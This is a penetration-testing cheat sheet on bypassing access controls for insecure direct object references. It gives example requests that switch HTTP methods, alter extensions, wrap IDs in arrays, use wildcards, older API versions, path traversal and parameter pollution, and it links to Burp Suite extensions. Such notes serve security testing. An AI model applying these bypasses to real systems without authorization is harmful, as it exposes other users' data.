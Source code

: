 # Insecure Direct Object Reference (IDOR)

### Change HTTP method

```bash
GET /users/delete/123 -> 403
POST /users/delete/123 -> 200
```

### Change file extension

Try to change the extension of the endpoint that you have.

```bash
#Endpoint found
/users/password -> 401

#Endpoints to test
/users/password.json
/users/password.xml
```

### Convert request body

Convert the body of the request to array or to include a json on it.

```bash
#Original body
{"id":1}

#Bypasses
{"id":[1]}
{"id":{"id":1}}
```

### Test wildcards

Change the identifier of the request to a wildcard.

```bash
#Original request
/api/v1/userlist/user1

#Wildcard bypasses
/api/v1/userlist/*
```

### Check another version

Many API endpoints expose the version in the request, try to change it to use another older.

```bash
#Original request
/api/v3/user/user3

#Changed version of the same endpoint
/api/v2/user/user3
/api/v1/user/user3
```

### Missing Function Level Access Control (MFLAC)

```bash
GET /admin/profile -> 401
GET /ADMIN/profile -> 200
```

### Path Traversal Secondary Context

```bash
#Original request
POST /users/delete/123 -> 403

#Bypass
POST /users/delete/MY_ID/../123 -> 200
```

### HTTP Parameter Pollution

```
GET /api/v1/messages?user_id=ATACKER_ID&user_id=VICTIM_ID
GET /api/v1/messages?user_id=VICTIM_ID&user_id=ATACKER_ID
```

### References

{% embed url="https://portswigger.net/bappstore/f9bbac8c4acf4aefa4d7dc92a991af2f" %}
Burp Suite extension aimed at helping the penetration tester to detect authorization vulnerabilities
{% endembed %}

{% embed url="https://portswigger.net/bappstore/f89f2837c22c4ab4b772f31522647ed8" %}
Burp Suite extension that automatically repeats requests, with replacement rules and response diffing
{% endembed %}
